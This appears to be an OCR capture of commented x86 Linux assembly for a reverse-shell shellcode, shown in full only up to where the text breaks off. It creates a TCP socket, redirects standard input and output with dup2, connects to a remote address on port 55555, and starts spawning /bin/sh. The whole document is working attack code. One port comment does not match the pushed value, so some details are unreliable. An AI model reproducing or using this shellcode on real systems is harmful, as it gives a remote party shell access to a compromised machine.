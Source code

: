 ```

    # Set up the destination port (55555 in hex: 0xd903).
    pushw  0x3d9
    pop    edi

    # Create a socket (socketcall syscall - syscall number 0x66 in eax)
    push   0x66
    pop    eax
    cdq

    # Set up the arguments for the socket creation.
    # Push 1 (SOCK_STREAM, for TCP) onto the stack.
    push   0x1            
    pop    ebx
    # Push 0 (protocol argument, set to 0) onto the stack.
    push   edx
    # Push `ebx` (1) again (socket type).
    push   ebx
    # Push 2 (AF_INET, for IPv4) onto the stack.
    push   0x2

# System call to create the socket.
syscall_socket:
    # Set `ecx` to point to the arguments (AF_INET, SOCK_STREAM, 0).
    mov    ecx,esp        
    int    0x80
    # Exchange `ebx` and `eax` (store socket file descriptor in `ebx`).
    xchg   ebx,eax
    pop    ecx

# Duplicate the socket file descriptor (dup2 syscall - used to redirect input/output).
duplicate_fd:
    mov    al,0x3f
    int    0x80
    dec    ecx
    jns    duplicate_fd

    # Connect the socket to the specified address and port.
    mov    al,0x66
    # ip address and port pushed
    push   esi
    push   di
    # Push 2 (AF_INET, for IPv4) onto the stack.
    pushw  0x2
    mov    ecx,esp
    # Push 16 (size of the sockaddr_in structure) onto the stack.
    push   0x10
    # Push the pointer to the sockaddr_in structure.
    push   ecx
    # Push the socket file descriptor.
    push   ebx
    # Set `ecx` to point to the arguments for the connect syscall.
    mov    ecx,esp
    int    0x80

    # Execve syscall to spawn /bin/sh
    mov    al,0xb
    push   edx
    # Push the string "//sh" onto the stack.
    # Push the string "/bin" onto the stack.
    push   0x68732f2f
    push   0x6e69622f
    # Set `ebx` to point to the string "/bin//sh".
```